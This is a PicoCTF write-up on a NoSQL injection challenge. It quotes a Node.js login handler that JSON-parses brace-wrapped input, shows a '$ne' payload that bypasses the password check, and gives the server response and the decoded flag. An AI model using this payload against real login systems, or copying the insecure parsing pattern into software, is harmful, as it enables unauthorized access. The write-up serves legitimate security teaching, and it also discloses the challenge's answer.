




# PicoCTF - NoSQL Injection & Base64 Decoding Writeup

## 1. Challenge Information

**Description:**
> Can you try to get access to this website to get the flag?
> You can download the source here.
> Additional details will be available after launching your challenge instance.

- **Objective**: Bypass the login mechanism to retrieve the Flag from the database
- **Vulnerability**: NoSQL Injection (NoSQLi) and Information Disclosure
- **Technology**: Node.js (Express), MongoDB (Mongoose)

---

## 2. Source Code Analysis (Reconnaissance)

### JSON Parse Vulnerability

In the `server.js` file, the login handler contains a critical security flaw:



```javascript
const user = await User.findOne({
  email: email.startsWith("{") && email.endsWith("}") ? JSON.parse(email) : email,
  password: password.startsWith("{") && password.endsWith("}") ? JSON.parse(password) : password,
});
```

**Analysis:**
- If the input string starts with `{` and ends with `}`, the server will cast the data type from string to Object via `JSON.parse()`

**Consequence:**
- This allows us to pass MongoDB query operators (such as `$ne`, `$gt`, `$regex`) directly into the `findOne()` function instead of a regular text string

### Target Data



- **System User**: `picoplayer355@picoctf.org`
- **Flag Field**: The `token` field in the database is set by default to contain the Flag
- **Hint**: "Look at everything the server is sending back" - reminds us to carefully check the JSON response after successful login

---

## 3. Exploitation Process

### Step 1: Authentication Bypass

Use the `$ne` (Not Equal) operator to request the database to find a user whose password is not equal to any incorrect value.

**Payload sent to `/login`:**

```json
{
    "email": "picoplayer355@picoctf.org",
    "password": "{\"$ne\": \"invalid\"}"
}
```

### Step 2: Token Retrieval

When sending the above payload, the server successfully authenticates and returns user data.



**Response received:**

```json
{
  "success": true,
  "email": "picoplayer355@picoctf.org",
  "token": "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzY3YjFhM2M4fQ==",
  "firstName": "pico",
  "lastName": "player"
}
```

### Step 3: Flag Decoding

The received `token` string has the characteristic format of Base64 (ending with `==`).

**Decoding with CyberChef:**

- **Base64 string**: `cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzY3YjFhM2M4fQ==`



---

## 4. Flag

```
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_67b1a3c8}
```
